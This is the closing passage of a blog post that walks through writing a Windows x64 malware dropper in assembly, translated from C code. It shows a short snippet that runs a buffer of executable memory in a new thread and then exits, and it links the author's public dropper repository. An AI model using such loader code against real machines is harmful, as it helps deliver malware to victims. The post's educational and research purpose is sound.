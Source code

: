 ```asm
	mov	r8, [exec_mem]
	xor	r9, r9
	push	r9
	push	r9
	call	CreateThread

	mov	rcx, rax
	mov	rdx, 0xFFFFFFFF
	call	WaitForSingleObject
		
ifrvzero:

	xor     rax, rax
	call    ExitProcess
```

As mentioned before, I did my best to match the structure of the C code to the assembly code to make it easy to compare how one section was translated to the other. There are other parts like the `jz ifrvzero` conditonal jump that I didn't discuss, but those can be easily be understood if you know the basics in assembly.

I've also uploaded the code on it's own repository [here](https://github.com/accidentalrebel/malware-dropper-x64-win-assembly). Updates and fixes to the code will be pushed there.

-------------------------------------------------------------------------------

A lot of the concepts I've described in this post were the lessons I learned while working on this project. Most of these can be researched but I'm hoping that collecting them in one location would benefit the next bloke who is crazy like me to do the same.

Feel free to reach out to me on [Twitter](https://twitter.com/accidentalrebel) or [LinkedIn](https://www.linkedin.com/in/juan-karlo-licudine/) for any questions or comments.
